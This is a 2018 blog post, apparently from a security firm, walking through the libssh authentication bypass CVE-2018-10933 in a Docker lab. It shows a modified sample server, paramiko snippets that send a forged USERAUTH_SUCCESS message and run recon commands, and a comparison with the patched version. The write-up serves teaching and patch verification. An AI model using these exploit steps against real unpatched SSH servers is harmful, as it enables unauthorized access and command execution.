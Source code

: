 :slug: libssh-bypass-cve/
:date: 2018-10-18
:category: attacks
:subtitle: New vulnerability on libssh CVE-2018-10933
:tags: security, bug, libssh, pentesting
:image: yodameme.png
:alt: Blank CSV document icon
:description: Libssh is a library to implement SSHv2 protocol on client and server side, recently a security analyst discovered a vulnerability that allows a remote attacker to bypass authentication by sending an user authenticated packet to the server. Here we are going to explain this vulnerability
:keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= LibSSH new Vulnerability

The new vulnerability in +LibSSH+, tracked as
link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
resides on the server code
which can enable a client to bypass the authentication process
and create channels without permissions,
this affects servers using versions +0.6+ and above
being used in server mode.

The bug was discovered by Peter Winter-Smith of NCC Group,
it's like a +jedi+ trick:

* User: +Let me in+
* Server: NO
* User: +I'm authenticated, let me in+
* Server: OK, YOU'RE IN

Why this happens?
Because of the way +LibSSH+ checks for authentication,
when its receives an +SSH2_MSG_USERAUTH_SUCCESS+ message
instead of the +SSH2_MSG_USERAUTH_REQUEST+ message,
it acts like the user is already authenticated
and an attacker could bypass the authentication
and execute commands on the server.

== Building the enviroment

How +LibSSH+ works?
It's a +C+ library to implement +SSHv2+ protocol
on client and server side,
so first of all we need to write our server side code,
we are going to use the sample that +LibSSH+ has (+samplesshd-cb.c+)
and modify it for our purposes.

In the +ssh_channel_callbacks_struct+
we are going to put the following line
in order to have the +exec+ functionality:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

image::channel-exec.png[channel-exec]


Next, add the +exec_request+ function,
this will take our commands and execute them on the server:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

If you have +LibSSH+ with version +0.7.4+
you can simply save it, compile it and execute it,
if not you can use our method.
we are going to use a +docker+ container
and install both versions,
a vulnerable one and a patched one,
then pass our code to the server and run it.
The example files can be downloaded [button]#link:cve201810933.zip[here]#

To build the container,
open a +terminal+ in the folder of the +Dockerfile+
and run this command:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

This will download all the necessary files
and compile all the sources of +LibSSH+.

Then, to open the container
simply run this command:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

This is going to mirror our +port 2222+ to the container +port 2222+
in order to be able to run our tests,
also it will open a +bash terminal+ on the container machine,
here we will run our +LibSSH+ server.

== Exploiting the vulnerability


In this case we are going to use +LibSSH v0.7.4+
and test the solution with +LibSSH v0.7.6+,
the PoC is on +Python+ version 2
and you can check its source
link:https://www.openwall.com/lists/oss-security/2018/10/17/5[here],
but if you downloaded our files
its there as +exploit.py+.

In order to run this PoC
you will need +paramiko+,
you can install it by running:

[source,bash]
----
host$ pip install paramiko
----

In the container run the following command
to start the vulnerable +LibSSH+ server:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

The verbose flag is to see what is sending and receiving our server.

Then in your machine run the exploit with:

[source,bash]
----
host$ python exploit.py
----

If you check your container
you can see this:

image::ssh-bypass.png[ssh-bypass]

When the server is expecting the +SSH2_MSG_USERAUTH_REQUEST+
we are sending an +SSH2_MSG_USERAUTH_SUCCESS+

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----

The server accepts it
and we bypassed the authentication.
Then we can send our commands to the server with:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

image::command-exec.png[command-exec]

== The solution

image::dont-work.png[dont-work]

The +LibSSH+ version +0.7.6+ don't have this vulnerability
and we can test it too
in our container,
we just need to run:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

And on our machine the exploit again:

[source,bash]
----
host$ python exploit.py
----

image::no-vulnerable.png[no-vulnerable]

What is happening?
We send the +SSH2_MSG_USERAUTH_SUCCESS+
and the server receives it
but it won't authenticate us
because they added a validation on their code,
when the packet is +SSH2_MSG_USERAUTH_SUCCESS+
then its checks for the authentication state
and if it is not one of the valid states
it denies the packet.

.Code on src/packet.c
image::solution.png[solution]

Here you can see the difference of responses
between a vulnerable version
and a non vulnerable one.

.Vulnerable
image::vulnerable.png[vulnerable]

.No vulnerable
image::no-vulnerable.png[no-vulnerable2]

If you have +LibSSH+ in your server
and you are using a server component,
you should install the updated or the patched versions of +LibSSH+
